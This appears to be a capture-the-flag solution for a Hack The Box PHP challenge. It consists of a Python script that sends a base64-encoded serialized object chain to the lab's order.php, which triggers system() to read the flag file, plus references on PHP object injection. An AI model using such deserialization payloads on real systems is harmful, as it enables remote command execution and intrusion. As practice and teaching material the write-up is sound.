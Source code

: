 ```bash
python3 exploit.py
```
```bash
import re
import requests

url = "http://94.237.123.87:39567/order.php"

headers = {
    "Cookie": "PHPSESSID=df0b22519244ec847030ef5cebab356c"
}

data = {
    "data": "Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjE6IlxIZWxwZXJzXEFycmF5SGVscGVycyI6NDp7aTowO2k6MDtpOjE7YToxOntpOjA7czoyNjoiY2F0IC9wQmhmTUJRbHU5dVRfZmxhZy50eHQiO31pOjI7YToxOntzOjg6ImNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fWk6MztOO31zOjc6InRvcHBpbmciO047fXM6Nzoibm9vZGxlcyI7TjtzOjc6InBvcnRpb24iO047fX0K"
}

response = requests.post(url, headers=headers, data=data, allow_redirects=False)
match = re.findall(r"HTB\{.*?\}", response.text)
if response.status_code == 302:
    if match:
        print(f"[+] FLAG FOUND: {match}")
    else:
        print(response.text)
        print("[-] No HTB flag found in response.")
else:
    print("[-] Request failed, check the URL or session.")
```


### Ctf
- https://app.hackthebox.com/challenges/POP%2520Restaurant
### Reference
- https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection


